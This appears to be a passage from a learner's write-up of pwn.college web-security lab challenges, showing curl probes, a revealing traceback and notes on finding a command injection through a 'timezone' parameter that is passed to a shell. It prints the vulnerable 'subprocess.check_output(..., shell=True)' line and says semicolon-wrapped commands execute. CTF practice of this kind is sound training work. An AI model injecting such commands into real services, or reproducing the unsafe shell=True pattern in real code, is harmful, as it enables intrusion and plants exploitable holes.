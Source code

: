 ```sh
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Jan 2025 05:15:57 GMT
Content-Length: 57
Server: pwn.college
Connection: close

pwn.college{flag_here}
hacker@web-security-level-1:~$ 

```

## Web-security level 2

* In this challange we have to get the flag via Command injection...
* This challange is bit tricky...
* There is module in `python` named `subporcess` which can be used to execute the system commands with their fucntions like `run()` & `check_output()`...


```sh
# for a normal curl request it shows like shoem kind of timezone...

hacker@web-security-level-2:~$ curl http://challenge.localhost:80
Tue Jan 25 09:27:52 UTC 2025

# after sometime i got know tha at this parameter this works very odd..

hacker@web-security-level-2:~$ curl http://challenge.localhost:80?timezone=whoami
Tue Jan 25 09:28:55 whoami 2025

# After emum ... 
# After curl i tried with the Python Request module..
# Here we are changing the aprameter timezone, then it reflect in output...
# when i use single quote (') like => ( url = "http://challenge.localhost:80?timezone=whoami ' " ) 
# The response will be like :
hacker@web-security-level-2:~$ python3 web-security/file.py 
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1823, in full_dispatch_request
    rv = self.dispatch_request()
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1799, in dispatch_request
    return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)
  File "/challenge/run", line 670, in catch_all
    return challenge()
  File "/challenge/run", line 81, in level2
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
  File "/usr/lib/python3.8/subprocess.py", line 415, in check_output
    return run(*popenargs, stdout=PIPE, timeout=timeout, check=True,
  File "/usr/lib/python3.8/subprocess.py", line 516, in run
    raise CalledProcessError(retcode, process.args,
subprocess.CalledProcessError: Command 'TZ=whoami '  date' returned non-zero exit status 2.

# here we can see that there is an error that tells more about the pareameter which we are using..
# There is a paramater (timezone) and after that we have command `date` executing...
# when we using the semicolon with (;command-here;) it executes commands...

```
